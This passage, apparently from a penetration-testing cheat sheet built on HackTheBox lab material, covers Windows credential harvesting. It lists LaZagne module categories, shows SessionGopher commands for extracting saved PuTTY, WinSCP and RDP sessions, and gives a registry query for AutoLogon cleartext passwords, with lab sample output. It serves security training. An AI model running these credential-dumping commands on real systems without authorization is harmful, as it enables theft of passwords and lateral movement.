 ### LaZagne Module Categories
```cmd
# Available modules:
chats          # Chat applications
mails          # Email clients
browsers       # Web browsers
sysadmin       # System admin tools
databases      # Database clients
windows        # Windows-specific storage
wifi           # Wireless profiles
memory         # Memory dumps
```

## 🔧 SessionGopher

### Remote Access Tool Credentials
```powershell
# Extract PuTTY, WinSCP, FileZilla, RDP credentials
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01

# Example output:
WinSCP Sessions
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings

PuTTY Sessions
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local

SuperPuTTY Sessions
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
Port          : 22
```

## 🗝️ Registry Credential Storage

### Windows AutoLogon
```cmd
# Check AutoLogon configuration
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Key values to check:
AutoAdminLogon     # 1 = enabled
DefaultUserName    # Username for autologon
DefaultPassword    # Cleartext password

# Example output:
AutoAdminLogon    REG_SZ    1
DefaultUserName   REG_SZ    htb-student
DefaultPassword   REG_SZ    HTB_@cademy_stdnt!
```
